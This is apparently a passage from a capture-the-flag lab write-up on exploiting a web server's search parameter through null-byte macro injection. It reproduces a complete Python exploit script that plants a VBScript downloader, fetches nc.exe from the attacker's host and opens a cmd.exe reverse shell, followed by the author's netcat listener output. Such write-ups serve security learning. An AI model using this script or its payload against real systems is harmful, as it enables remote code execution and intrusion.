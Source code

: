 ```
#          You may need to run it multiple times for success!

import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.10.x.x" # Local IP address
 	local_port = "80" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```
Let's try it out.

First, we start a listener with `sudo nc -lvnp 80` before executing the Python script with `python 39161.py 10.10.10.8 80`.
```
hippoeug@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.8] 49322
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: el
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.3; WOW64; Trident/7.0; .NET4.0E; .NET4.0C)
Host: 10.10.x.x
Connection: Keep-Alive
```
Interesting, we get a `GET /nc.exe HTTP/1.1` request. And sure enough, on the comments of the Python script, it mentions `EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe)`.
